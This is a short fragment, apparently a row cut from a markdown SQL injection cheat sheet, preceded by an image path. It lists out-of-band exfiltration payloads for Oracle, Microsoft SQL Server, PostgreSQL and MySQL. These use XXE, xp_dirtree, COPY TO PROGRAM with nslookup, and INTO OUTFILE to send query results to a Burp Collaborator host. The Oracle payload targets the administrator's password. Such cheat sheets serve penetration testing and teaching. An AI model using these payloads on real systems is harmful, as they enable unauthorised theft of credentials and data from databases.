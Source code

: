 | Via XXE :<br><br>`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT password FROM users WHERE username='administrator')\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | `create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Windows Only :<br><br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                         | Out-of-band (OOB) interaction  with data exfiltration.                                                                                                                                                                                                                                                                      |

